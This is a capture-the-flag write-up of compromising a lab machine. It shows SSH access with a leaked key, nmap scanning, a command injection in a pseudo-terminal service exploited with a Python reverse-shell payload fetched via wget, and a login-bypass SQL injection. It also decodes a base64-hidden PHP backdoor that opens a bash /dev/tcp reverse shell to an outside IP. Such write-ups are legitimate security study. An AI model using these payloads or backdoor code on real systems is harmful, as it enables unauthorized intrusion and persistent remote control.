 # Writeup

## Access
After got the private key from the website, it is saved in a file called id_rsa then it was used to access to the machine, using it_consultant user:
```
chmod 400 id_rsa
ssh -i id_rsa it_consultant@<ip_address>
```

The first thing done is knowing what it can be done as root with this use:
```
sudo -l
```

Then using ```nmap``` from my host it can be found that there are 3 ports running:
```
nmap -sC -sV <ip_address>
```

The ports were:
* 80
* 6969
* 8000

In the machine there was also the source code of all services running in the ```vese-projects-code``` folder, it can be found 4 projects:
* api
* mqtt_servers 
* pseudo-terminal -> **found vulnerabilities**
* websites -> **found vulnerabilities**

### pseudo-terminal vulnerabilities
It can be found an important vulnerability in ```switch.py``` file and in particular in the ```cmd_banner``` function because there was a non sanitized ```cmd``` variable:
```os.popen(cmd().read())```
this vulnerability allows **arbitrary code execution** so it was used in this way:
1. ```nc localhost 6969``` -> connect to the socket service of pseudoterminal
2. ```banner -s s && id``` -> found that it will be executed the ```id``` command when will be typed the ```banner``` command, it used a reverse shell to get into this docker container in this way:
Created a python file ```pyload.py```:
```
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.18.0.1",8888));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```
then using ```ngrok``` and ```python -m http.server``` module the file it was hosted and with wget:
```banner -s s && wget <link> && chmod +x pyload.py && python3 pyload+x```
then started an nc listener: ```nc -lvnp 8888``` and started the ```banner``` command.

### websites vulnerabilities
Added in the host machine in the ```/etc/hosts``` file the following hostnames:
* vese.com
* contact.vese.com 
* internal.vese.com

Found an SQLi in the internal website accessed by ```http://internal.vese.com```  in the /vese-```projects-code/websites/php/login.php``` file: in the query was used the ```username``` arrived from the client and not the **sanitized** one (maybe an inadvertence by the developers). The sqli used was: ```' OR 1=1 # ```
The passwords are stored using md5 hashing that is not a SHA (Secure Hash Algorithm) and it is [risky](https://en.wikipedia.org/wiki/MD5#:~:text=cluster.%5B42%5D-,Preimage%20vulnerability,-%5Bedit%20source).

The attacker left a way to trigger and spawn a reverse shell to have a persistance on the server. In order to reach this goal the attacker saved in the ```test_comment.php``` file an ```eval``` expression (function that allows to execute code from string) encoded in ```base64```, decoding there will be the following malicious code:
```
if ($name == "test1" && $email == "test@test.com" && $message == "test2"){
    system("bash -c 'bash -i >& /dev/tcp/158.46.250.151/9001 0>&1'");
}
```
